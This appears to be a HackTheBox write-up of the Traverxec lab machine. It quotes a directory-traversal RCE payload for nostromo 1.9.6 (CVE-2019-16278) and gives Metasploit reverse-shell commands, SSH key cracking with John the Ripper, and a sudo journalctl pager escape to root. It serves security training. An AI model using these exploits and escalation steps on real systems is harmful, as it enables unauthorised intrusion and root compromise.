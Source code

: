 ```yaml
---
title: Write-up Traverxec Machine
author: pcw3r
date: 2020-04-11 11:33:00 +0800
categories: [HackTheBox, Pentest]
tags: [LINUX, EASY, ENUMERATION, WEB EXPLOITATION, PASSWORD CRACKING, GTFOBINS-ABUSE, SHELL-ESCAPING, CVE]
math: true
---
```


**<center>Ref°: HTB-03-Pentest</center>**

![Desktop View]({{ "/assets/img/traverxec/HTB-Badge-Traverxec.png" | relative_url }})

--- Traverxec is a Linux machine that highlights the exploitation of CVE through nostromo version 1.9.6 to gain first level access. Then allow the enumeration to escalate our privileges through a found and cracked backup ssh key. That to get Flag user.

After that we find a script named "server-stats.sh" which allow to user David run especially command under root permission. To increase our privilege and gain root permission we use GTFOBin on journalctl and the execution of linux pager tool to allow the navigation in script result under root permission. That to get Flag root.

![Desktop View]({{ "/assets/img/traverxec/HTB-Information-Traverxec.png" | relative_url }})

## **<span style='color:#c0392b'>Discovery - Figure out environment</span>**
### Check all services
***
The nmap scan reveals `SSH` and `Apache` to be running on their usual ports.

```terminal
$ nmap -A -T5 10.10.10.165 -p-
```

![Desktop View]({{ "/assets/img/traverxec/HTB-Images-Traverxec-nmap.png" | relative_url }})

### Web
***
Nostromo run on the web service in version `1.9.6`.

### Vulnerabilities
***

Here our target is Nostromo software. We check all vulnerabilities with metasploit and we find 2 vulnerabilities presents in our version.

We are two CVE : 2019-16278 and 2019-16279. The first one is more interesting, it allow an RCE through directory transversal.

### Reviewing Code
***
Reference - exploit : <https://www.exploit-db.com/exploits/47837>

This issue is caused by a directory traversal in the function http_verify in nostromo nhttpd allowing an attacker to achieve remote code execution via a crafted HTTP request.

```
...
def cve(target, port, cmd):
    soc = socket.socket()
    soc.connect((target, int(port)))
    payload = 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1'.format(cmd)
    soc.send(payload)
    receive = connect(soc)
    print(receive)
...
```

The execution of the RCE dont need to be authenticated or have an authenticated user.

Metasploit module exists.

## **<span style='color:#c0392b'>Foothold - Get into the target </span>**
### Obtaining Reverse Shell from CVE Exploitation
***
```terminal
$ msfconsole
msf5 > search nostromo
msf5 > use exploit/multi/http/nostromo_code_exec
msf5 > show options
msf5 > set lhost 10.10.15.122
msf5 > set rhost 10.10.10.165
msf5 > check
msf5 > exploit
```

![Desktop View]({{ "/assets/img/traverxec/HTB-Images-Traverxec-rce.png" | relative_url }})

The exploitation is successful and we have gained a foothold.

Let's appear a pseudo-terminal with this command :

Reference - pseudo-terminal : <https://hacktion.be/reverse-shell-exercice/>

```terminal
$ python -c 'import pty; pty.spawn("/bin/bash")'
```

![Desktop View]({{ "/assets/img/traverxec/HTB-Images-Traverxec-terminalonrce.png" | relative_url }})


## **<span style='color:#c0392b'>Lateral Movement - Move through environment</span>**
### Cracking Password
***
Enum with www-data account and check the file /etc/passwd to find all system users : `David`

We find in nostromo folder a configuration file with reference of `public_www` folder below `/var/nostromo/conf/nhttpd.conf`

![Desktop View]({{ "/assets/img/traverxec/HTB-Images-Traverxec-publicfolder.png" | relative_url }})

We find `SSH Key` archive below `/home/david/public_www/protected-file-area`

![Desktop View]({{ "/assets/img/traverxec/HTB-Images-Traverxec-backupssh.png" | relative_url }})

![Desktop View]({{ "/assets/img/traverxec/HTB-Images-Traverxec-backupssh2.png" | relative_url }})

We retrieve the private key to exploit it with JohnTheRipper on our attacking machine.

Reference - johntheripper tool : <https://bytesoverbombs.io/cracking-everything-with-john-the-ripper-d434f0f6dc1c>

```terminal
$ ./ssh2john.py ~/.ssh/David > David.hash
$ /usr/sbin/john --wordlist=/root/Documents/wordlist/rockyou.txt David.hash
```

![Desktop View]({{ "/assets/img/traverxec/HTB-Images-Traverxec-jtr.png" | relative_url }})

We crack the password of the user David : `hunter`


## **<span style='color:#c0392b'>Privilege Escalation - Gain higher-level permissions</span>**
### GTFOBins abuse & Shell Escaping
***
We find bash script `server-stats.sh` below `/home/david/bin`

![Desktop View]({{ "/assets/img/traverxec/HTB-Images-Traverxec-scriptexec.png" | relative_url }})

David can execute this command under root privilege without password :

```
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | usr/bin/cat
```

![Desktop View]({{ "/assets/img/traverxec/HTB-Images-Traverxec-script.png" | relative_url }})

Here we want stop the script under root privilege. To do this we use 2 techniques ; `GTFOBin Abuse` on journalctl and `Shell Escaping`.

We copy the script to exploit the command line like we want.

We delete the command `/usr/bin/cat` to avoid the result of the command.

```terminal
david@traverxec:~$ cp server-stats.sh private.sh
david@traverxec:~$ chmod +x private.sh
david@traverxec:~$ nano private.sh -> delete command /usr/bin/cat
```

Before launch our script, we need to resize our terminal to allow the execution of the pager linux tool.

Reference - Shell Escaping : <https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/>

"Linux pagers are simple utilities that allow us to see the output of a particular command or text file, that is too big to fit the screen, in a paged way. The most well known are more and less."

In this situation, the result of script that appears is larger than our terminal and allow the navigation of the document under root permission.

We have the possibility to abusing of GTFOBin journalctl to appear a shell under root privilege with !/bin/sh

Reference - journalctl GTFOBin : <https://gtfobins.github.io/gtfobins/journalctl/>

![Desktop View]({{ "/assets/img/traverxec/HTB-Images-Traverxec-resizeterminal.png" | relative_url }})

***

## **<center>Trophy</center>**

> **Everything is a copy of a copy of a copy.**
>
> Chuck Palahniuk, Fight Club
